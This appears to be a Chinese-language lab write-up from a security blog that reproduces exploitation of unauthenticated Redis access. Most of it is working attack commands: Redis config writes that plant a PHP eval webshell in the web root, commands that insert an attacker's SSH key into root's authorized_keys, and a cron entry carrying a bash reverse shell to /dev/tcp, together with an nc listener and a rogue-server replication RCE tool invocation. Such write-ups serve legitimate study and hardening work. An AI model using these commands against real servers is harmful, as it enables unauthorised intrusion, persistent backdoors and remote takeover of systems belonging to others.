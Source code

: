 ```yaml
---
title: Redis未授权访问
date: 2020-06-06 21:20:08
categories: 漏洞复现
tags: 未授权访问
---
```


#### 背景

Redis是一个开源的使用ANSI C语言编写、遵守BSD协议、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API，数据库默认监听端口**6379**,本实验修改端口为3901。

<!--more-->

#### 写一句话马

1.连接Redis

`redis-cli -h IP -p 端口`

2.写webshell

```
config set dir /var/www/html
config set dbfilename shell.php
set payload `<?php eval($_POST['cmd']);?>'
save
```

3.查看shell

![](http://qn.laohuan.xin/2020-06-01_21-36-42.png)

4.连接shell

![](http://qn.laohuan.xin/2020-06-01_21-35-33.png)

#### 写入shell密匙

前提是目标设置允许使用私匙登陆，且redis安装后会有一个普通redis用户，并且redis可以执行shell。若reids使用root用户运行，可将密匙写到root用户的.ssh文件下。

1.生成密匙

`ssh-keygen -t rsa`

![](http://qn.laohuan.xin/2020-06-01_6-11-15.png)

* ssh_ras为私匙
* ssh_rsa.pub为公匙

2.写入公匙

```
#Redis使用root用户运行时，密钥写入到root用户.ssh中
config set dir /root/.ssh/

#设置持久化文件名为authorized_keys
config set dbfilename authorized_keys

#写入密钥内容（需在公钥字符串前后加三个\n）
set sshpubkey "\n\n公匙内容\n\n"

#保存持久化文件
save
```

3.连接ssh

设置私匙权限

`chmod 600 ssh_ras`

使用私匙连接

`ssh -i ssh_ras root@IP`

#### 计划任务反弹shell

这一步反弹shell在Ubuntu测试失败，搜索一番从[VK'blog]([http://www.vkxss.top/2019/05/28/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95-Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E4%B9%8Bubuntu%E5%8F%8D%E5%BC%B9shell%E9%97%AE%E9%A2%98/index.html](http://www.vkxss.top/2019/05/28/渗透测试-Redis未授权访问漏洞之ubuntu反弹shell问题/index.html))得到结果，这是由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败，因为自己如果不使用redis写任务计划文件，而是正常向/etc/cron.d目录下写任务计划文件的话，命令是可以正常执行的，所以还是乱码的原因导致命令不能正常执行，而这个问题是不能解决的，因为利用redis未授权访问写的任务计划文件里都有乱码，这些代码来自redis的缓存数据。

1.Nc监听

`nc -nlvp 3950`

2.写shell

```
set shell "\n\n* * * * * bash -i >& /dev/tcp/ip/端口 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

3.查看shell

![](http://qn.laohuan.xin/2020-06-01_09-56-59.png)

反弹shell已经写到计划任务，由于以上原因，无法反弹成功

#### 脚本

1.基于主从复制RCE

* <http://github.com/Ridter/redis-rce />
* <http://github.com/n0b0dyCN/redis-rogue-server/>

`python3 redis-rogue-server.py --rhost 目标主机 --rport 目标端口 --lhost 监听IP --lport 端口`

![](http://qn.laohuan.xin/2020-06-01_11-25-25.png)

选择1会直接得到一个shell

![](http://qn.laohuan.xin/2020-06-01_11-20-41.png)

选择2会得到一个反弹shell



#### 参考链接

<[http://www.vkxss.top/2019/05/28/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95-Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E4%B9%8Bubuntu%E5%8F%8D%E5%BC%B9shell%E9%97%AE%E9%A2%98/index.html](http://www.vkxss.top/2019/05/28/渗透测试-Redis未授权访问漏洞之ubuntu反弹shell问题/index.html)/>

<http://siweicn.yuque.com/securitytech/exploit/redis/>